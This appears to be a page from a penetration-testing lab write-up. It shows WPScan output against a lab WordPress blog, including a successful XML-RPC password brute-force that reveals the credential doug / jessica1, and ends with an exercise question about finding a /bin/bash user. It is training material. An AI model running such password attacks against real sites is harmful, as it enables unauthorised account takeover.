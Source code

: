 ```
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - doug / jessica1                                                                                                                                                                                                                 
Trying doug / bettyboop Time: 00:00:19 <                                                                                                                                                            > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Jul 12 02:58:14 2023
[+] Requests Done: 834
[+] Cached Requests: 6
[+] Data Sent: 403.43 KB
[+] Data Received: 968.264 KB
[+] Memory used: 287.047 MB
[+] Elapsed time: 00:00:46

```

doug:jessica1

**Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.**
